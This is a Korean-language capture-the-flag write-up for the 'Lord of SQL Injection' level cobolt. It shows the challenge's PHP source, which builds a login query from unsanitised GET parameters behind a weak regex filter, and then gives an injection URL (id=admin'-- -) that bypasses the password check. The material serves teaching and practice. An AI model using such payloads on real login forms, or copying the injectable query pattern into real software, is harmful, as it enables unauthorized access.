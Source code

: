 Lord of SQL Injection No.2 - cobolt
```
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id'] == 'admin') solve("cobolt");
  elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>";
  highlight_file(__FILE__);
?>
```
위 코드에서 알 수 있는 것
preg_match로 인해 .과()이 id와 pw에 들어가 있으면 No Hack ~_~ 라고 뜨며 문제풀이에 실패하는 것을 알 수있다.
그리고 $result['id']에 admin이 들어가 있으면 문제풀이에 성공하는 것을 알 수 있다.(9번째줄)

문제 풀이법
1) id값에 admin을 넣어준다.
http://los.eagle-jump.org/cobolt_ee003e254d2fe4fa6cc9505f89e44620.php?id=admin'-- -
싱글쿼터로 admin에서 받는값을 끝내주고 뒤에 pw를 입력하지 않고 뚫기 위해 주석처리를 해준다.
